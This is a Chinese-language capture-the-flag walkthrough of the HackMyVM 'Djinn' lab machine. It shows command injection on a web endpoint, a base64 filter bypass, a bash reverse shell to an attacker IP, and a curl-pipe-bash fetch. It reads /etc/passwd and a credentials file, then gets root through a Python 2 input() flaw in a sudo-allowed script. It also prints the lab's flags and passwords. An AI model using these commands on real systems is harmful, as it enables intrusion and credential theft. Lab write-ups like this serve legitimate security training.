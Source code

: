 # Djinn

2025.02.15 https://hackmyvm.eu/machines/machine.php?vm=Djinn

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
1337/tcp open  waste
7331/tcp open  swx
```

ftp 可以匿名登陆，将其内容全部下载后查看。

```
nitu:81299

oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the
final level and get the prize.

@nitish81299 I am going on holidays for few days, please take care of all the work.
And don't mess up anything.
```

说 1337 端口上有一个游戏，使用 nc 进行连接，发现是个计算游戏，但是好像没看出什么漏洞，估计是个兔子洞。

在看 7331 这个端口，是个 web 页面，源码中也没什么信息，使用 gobuster 进行扫描，发现了 http://192.168.5.40:7331/wish 这里实现命令执行：

```
curl --data-urlencode "cmd=whoami" http://192.168.5.40:7331/wish
```

直接在 kali 上建立监听，然后执行反弹：

```
nc -lvnp 8888
curl --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'" http://192.168.5.40:7331/wish
```

这里不能执行，显示 Wrong choice of words 应该是后台有过滤，需要绕过，尝试用 base64 进行绕过：

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish

root:x:0:0:root:/root:/bin/bash
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
```

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish
```

对下面的代码进行 base64：

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'

L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==
```

然后执行：

```
curl --data-urlencode "cmd=echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==|base64 -d|bash" http://192.168.5.40:7331/wish
```

这时在 kali 上得到了反弹的 shell：

```
www-data@djinn:/opt/80$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

然后发现了一个用户登陆凭据：

```
www-data@djinn:/home/nitish$ cat .dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

su 切换到 nitish 用户，得到了 user flag：

```
nitish@djinn:~$ cat user.txt
HMV{WW91IGZvdW5kIHRoZSBmaXJzdCBzdGVw}
```

sudo -l 发现 (sam) NOPASSWD: /usr/bin/genie 可以直接提权到 sam 用户：

```
sudo -u sam /usr/bin/genie -c 'curl http://192.168.5.3/5-3/8888.sh|bash'
```

但是出现提示：Pass your wish to GOD, he might be able to help you. 应该是有过滤。尝试找到更多的命令帮助 man genie 发现了一个参数 -cmd ：

```
-cmd
You know sometime all you new is a damn CMD, windows I love you.
```

sudo -u sam genie -cmd whoami 执行后，得到了 sam 权限，sudo -l 发现另外的命令： (root) NOPASSWD: /root/lago , 但是没有执行权限。

发现 sam 用户属于 lxd 用户组，想着借助 lxd 提权，但是提示有问题：

```
Error: Unable to read the configuration file: open /home/nitish/.config/lxc/config.yml: permission denied
```

发现在 sam 目录中有一个 .pyc 文件，将其反编译，得到源码：

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'

if __name__ == '__main__':
    main(options())
```

sudo -l 发现 (root) NOPASSWD: /root/lago ，先尝试执行：

```
sudo -u root /root/lago
```

发现程序显示的内容和上面的 pyc 代码反编译出来的一致，找到执行逻辑，发现 guessit() 可以执行命令，输入 2 和 num 直接得到了 root 权限：

```
sam@djinn:/home/sam$ sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100:
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
lago  root.txt
# cat root.txt
HMV{eWVzIHlvdSBhcmUgY29vbA==}
```

最后提权到 root，也可以利用 pwnkit 这个版本的漏洞 https://github.com/arthepsy/CVE-2021-4034
